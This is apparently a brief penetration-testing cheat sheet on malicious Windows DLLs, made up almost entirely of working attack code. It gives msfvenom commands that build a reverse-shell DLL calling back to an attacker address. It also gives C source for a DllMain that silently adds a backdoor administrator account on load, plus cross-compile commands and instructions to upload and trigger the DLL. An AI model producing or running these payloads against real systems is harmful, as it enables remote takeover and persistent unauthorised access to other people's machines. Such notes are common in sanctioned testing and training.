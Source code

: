 ### Generate reverse shell for `.dll`
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<TARGET_IP> LPORT=<PORT> -f dll -o rev.dll
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.38.79 LPORT=53 -f dll -o rev.dll
```
Upload `.dll` and trigger its execution

### Create User `.dll` script
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user HackingT1me Password123@! /add");
  	    i = system ("net localgroup administrators HackingT1me /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Cross-compile the code according to the target machine specification
```
x86_64-w64-mingw32-gcc -shared -o backdoor.dll <SCRIPT>
i686-w64-mingw32-gcc -shared -o backdoor.dll <SCRIPT>
```
>Use g++ for C++ code

Upload `.dll` and trigger its execution
